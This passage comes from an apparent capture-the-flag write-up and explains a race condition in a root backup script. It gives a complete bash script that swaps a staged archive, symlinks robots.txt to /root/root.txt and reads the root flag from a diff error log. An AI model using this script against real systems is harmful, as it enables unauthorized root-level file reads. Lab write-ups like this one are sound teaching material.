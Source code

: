 This will cause the `diff` command to identify the difference (`/root/root.txt` != `/var/www/html/robots.txt`) and output the contnets of the root flag onto the log file at `/var/backups/onuma_backup_error.txt`. Essentially giving us arbitrary read access as root via the script. 


To exploit this we can use the following bash script:

```bash
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```
